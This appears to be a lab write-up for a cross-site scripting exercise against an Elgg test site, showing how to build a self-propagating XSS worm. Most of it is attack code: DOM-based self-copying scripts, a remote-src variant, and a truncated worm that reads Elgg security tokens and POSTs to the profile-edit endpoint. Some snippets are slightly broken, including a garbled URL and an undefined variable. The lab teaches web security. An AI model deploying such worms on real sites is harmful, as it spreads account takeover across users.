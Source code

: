 
---

## Task 6 : Creating a self propagating worm
- exponential growth
- dynamically generate code


1. **ID/DOM Approach**:
- If the entire JavaScript program (worm) is embedded in the infected profile
- the worm code can use `DOM APIs` to retrieve a copy of itself from the web page.
- This code gets a copy of itself, and display it in an alert window:


```js
// if f the entire JavaScript program (i.e., the worm) is embedded in the infected profile
// to propagate the worm to another profile
// the worm code can use DOM APIs to retrieve a copy of itself from the web page.
<script id="worm" type="text/javascript">
    var badCode = document.getElementById("worm");
    alert(badCode.innerHTML);
</script>

<script id="worm" type="text/javascript">
    var header = "<script id=\"worm\" type=\"text/javascript\" >";

    // innerHTML only gives us the inside part of the code, not including the surrounding script tags.
    var copy = document.getElementById("worm").innerHTML;

    var tail = "</" + "script>";
    var wormCode = encodeURIComponent(header+copy+tail);
    alert(jsCode);
</script>

<script id="worm" type="text/javascript">
    // construct a copy of itself
    var selfProp = "<script id=\"worm\" type=\"text/javascript\" >".concat( document.getElementById("worm").innerHTML ).concat("</").concat("script>");
</script>
```

2. **Src/Link Approach**:
- If the worm is included using the `src` attribute in the `<script>` tag
- can simply copy the `<script>` tag to the victim’s profile, essentially infecting the profile with the same worm.

```js
<script type="text/javascript" src="http网站//example.com/xss_worm.js">
</script>
```

1. example

```js
<script id="worm" type="text/javascript">

var selfProp = "<script id=\"worm\" type=\"text/javascript\" >".concat(document.getElementById("worm").innerHTML).concat("</").concat("script>");

var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;

ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
```
